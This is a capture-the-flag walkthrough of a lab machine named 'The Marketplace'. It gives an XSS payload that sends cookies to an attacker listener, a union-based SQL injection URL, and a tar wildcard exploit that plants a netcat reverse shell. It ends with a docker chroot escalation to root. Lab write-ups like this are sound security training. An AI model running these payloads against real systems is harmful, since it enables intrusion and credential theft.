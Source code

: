 # Marketplace
# Mayank Srivastava | 15 dec 2020
--------------------------------------------------

## Nmap Scan

``` #Nmap 7.91 scan initiated Tue Dec 15 16:06:17 2020 as: nmap -sC -sV -oN nmap/initial 10.10.44.16
 Nmap scan report for 10.10.44.16
Host is up (0.62s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 15 16:07:40 2020 -- 1 IP address (1 host up) scanned in 82.97 seconds
```

Found xss vulnerability in both of text box

## running python3 simple http server

``` <script>var i=new Image; i.src="http://10.4.10.4:8000/?"+document.cookie;</script>```

admin token = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDgwMjk3ODN9.vJ9-d2NiJld0S3a5Am7DNkxYuD-ubW_QWg0v1lX5t6g


## Sql Injection

looks like admin panel have sql vulnerability for cross check put" ' " at the end of the url

now we can inject some sql code to access the database also we can try union based sqli attack to read content from the database

/admin?user=0 union select 1,group_concat(message_content,'\n'),3,4 from marketplace.messages-- -

## Enumeration

after found the username and the ssh password

we are on the box

sudo -l 

User jake may run the following commands on the-marketplace:
   (michael) NOPASSWD: /opt/backups/backup.sh
```
we can exploit tar to gain access on the machine

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.10.4 9001 >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

chmod 777 /opt/backups/backup.tar

nc -nlvp 9001

get connection as michael but user michael is in docker env
we can also exploit docker env using alpine

docker image ls

docker run -v / :/mnt --rm -it alpine chroot /mnt sh

after running this docker alpine we have a root shell 
